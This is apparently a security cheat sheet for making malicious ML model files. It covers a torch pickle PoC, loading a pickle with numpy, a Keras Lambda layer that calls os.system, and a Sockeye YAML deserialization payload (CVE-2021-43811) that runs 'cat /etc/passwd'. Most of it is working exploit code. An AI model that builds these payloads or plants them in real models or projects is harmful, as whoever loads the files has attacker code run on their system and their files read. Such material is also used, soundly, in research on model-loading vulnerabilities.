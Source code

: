 ### torch
> pickle manipulate tool: https://github.com/trailofbits/fickling

- use [pytorch_poc.py](/assets/py/pytorch_poc.py) to create malicious model file
```shell
python3 pytorch_poc.py
```

- load model
```python
import torch
torch.load("pytorch_exfil_poc.zip")
```

### numpy

- use previous created rs.pkl
- load it with numpy
```python
import numpy
numpy.load('rs.pkl', allow_pickle=True)
```

### keras
> use lambda layer to execute command 

- create h5 model file
```python
from keras.layers import Lambda
from keras.models import Input, Model
a = Input(shape=(2,))
b = Input(shape=(2,))
def exploit(inputs):
    import os
    os.system('echo "You Are Hacked !!!"')
    x, y = inputs
    return (x + y)
lambda_layer = Lambda(exploit, name="exploit")([a, b])
model = Model(inputs=[a, b], outputs=[lambda_layer])
model.save("my_model.h5")
```

- load model file
```python
from keras.models import load_model
load_model("my_model.h5")
```

### Sockeye
> reference: https://github.com/s-index/CVE-2021-43811

- create malious yaml
```
!!python/object/new:type
args: ['z', !!python/tuple [], {'extend': !!python/name:exec }]
listitems: "__import__('os').system('cat /etc/passwd')"
```
